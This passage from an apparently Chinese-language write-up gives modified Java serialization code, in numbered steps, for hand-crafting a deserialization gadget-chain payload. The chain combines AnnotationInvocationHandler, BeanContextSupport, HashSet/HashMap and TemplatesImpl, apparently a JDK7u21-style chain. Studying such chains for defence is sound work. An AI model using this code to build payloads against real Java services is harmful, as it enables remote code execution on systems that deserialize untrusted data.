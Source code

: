 ```java
if (cl.getName() == "sun.reflect.annotation.AnnotationInvocationHandler"){
    hasWriteObjectData = true;
}else {
    hasWriteObjectData = (writeObjectMethod != null);
}
```

3、重新构造调用重写 writeObject 方法的序列化流程，根据 ```JDK7u21``` 序列化的类来修改 ```writeSerialData``` 方法，将 ```slotDesc.invokeWriteObject(obj, this);``` 语句修改如下：

```java
if (slotDesc.getName().equals("java.util.HashSet")){
	defaultWriteObject();
	bout.writeInt(16);
	bout.writeFloat(.75f);
	bout.writeInt(2);
	writeObject0(getTemplatesImpl(), false);
	writeObject0(getTemplates(), false);
}else if(slotDesc.getName().equals("java.beans.beancontext.BeanContextSupport")){
    defaultWriteObject();
    writeObject0(getInvocationHandler(), false);
    bout.writeInt(0);

}else if(slotDesc.getName().equals("java.util.HashMap")){
    defaultWriteObject();
    bout.writeInt(16);
    bout.writeInt(1);
    writeObject0("f5a5a608");
    writeObject0(getTemplatesImpl());

} else if(slotDesc.getName().equals("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl")){
    defaultWriteObject();
    bout.writeBoolean(false);
} else {
    defaultWriteObject();
}
```

4、修改 ```defaultWriteFields(obj, slotDesc);``` 方法，将 ```writeObject0(objVals[i],fields[numPrimFields + i].isUnshared());``` 修改如下：

```java
if (desc.getName() == "java.util.HashSet"){
    writeObject0(getBeanContextSupport(),false); // 为构造的假字段写入值为 BeanContextSupport 对象
}else if (desc.getName() == "java.beans.beancontext.BeanContextChildSupport"){
    writeObject0(getBeanContextSupport(),false); // 为 beanContextChildPeer 字段写入值为 BeanContextSupport() 对象
}else {
    writeObject0(objVals[i],
            fields[numPrimFields + i].isUnshared());
}

```
